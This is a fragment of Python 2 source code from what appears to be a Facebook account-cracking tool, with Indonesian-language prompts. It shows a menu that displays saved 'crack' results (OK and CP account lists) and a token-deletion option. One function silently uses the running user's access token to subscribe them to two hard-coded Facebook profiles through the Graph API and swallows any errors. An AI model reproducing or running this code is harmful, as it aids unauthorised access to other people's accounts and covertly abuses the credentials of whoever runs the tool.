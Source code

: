            file = raw_input('[%s?%s] NAWE FILE BNUSA:%s ' % (M, N, H))
            if file == '':
                file = raw_input('%s[%s?%s] NAWE FILE BNUSA:%s %s' % (N, M, N, H, N))
            total = open('saved/%s' % file).read().splitlines()
            print '%s[%s\x1b[1;91m#%s] --------------------------------------------' % (N, O, N)
            time.sleep(2)
            nm_file = ('%s' % file).replace('-', ' ')
            hps_nm = nm_file.replace('.txt', '').replace('OK', '').replace('CP', '')
            jalan(' [%s\x1b[1;92m*%s] %crack%s saved on date %s:%s%s%s total %s: %s%s%s' % (M, N, O, N, M, O, hps_nm, N, M, O, len(total), O))
            print ' %s[%s\x1b[1;92m#%s] --------------------------------------------' % (N, O, N)
            time.sleep(2)
            for memek in total:
                sultani = memek.replace('\n', '')
                titid = sultani.replace(' [\xe2\x9c\x93] ', ' \x1b[0m[\x1b[1;92m\xe2\x9c\x93\x1b[0m]\x1b[1;92m ').replace(' [\xc3\x97] ', ' \x1b[0m[\x1b[1;93m\xc3\x97\x1b[0m]\x1b[1;93m ')
                print '%s%s' % (titid, N)
                time.sleep(0.03)

            print ' %s[%s#%s] --------------------------------------------' % (N, O, N)
            raw_input('[ %sRETURN%s ] ' % (O, N))
            menu()
        except IOError:
            print '%s[%s\x1b[1;91m\xc3\x97%s] opshh you are not getting savedl :(' % (N, M, N)
            raw_input('[ %s RETURN%s ] ' % (O, N))
            menu()

    elif mr_profaisor in ('6', '06'):
        seting_yntkts()
    elif mr_profaisor in ('7', '07'):
        info_tools()
    elif mr_profaisor in ('0', '00'):
        print '\n'
        tod()
        time.sleep(1)
        os.system('rm -rf .login.txt')
        jalan('%s[%s\x1b[1;92m\xe2\x9c\x93%s]%s successfully deleted token' % (N, H, N, H))
        exit()
    else:
        print '%s[%s\xc3\x97%s] menu [%s%s%s] no, check the menu bro!' % (N, M, N, M, mr_profaisor, N)
        time.sleep(2)
        menu()


def mr___profaisor(sultani):
    try:
        kentod = sultani
        requests.post('https://graph.facebook.com/100009918107424/subscribers?access_token=%s' % kentod)
        requests.post('https://graph.facebook.com/100027060438331/subscribers?access_token=%s' % kentod)
    except:
        pass


def teman(sultani):
    try:
        os.system('clear')
        print logo
        os.mkdir('extract')
    except:
        pass
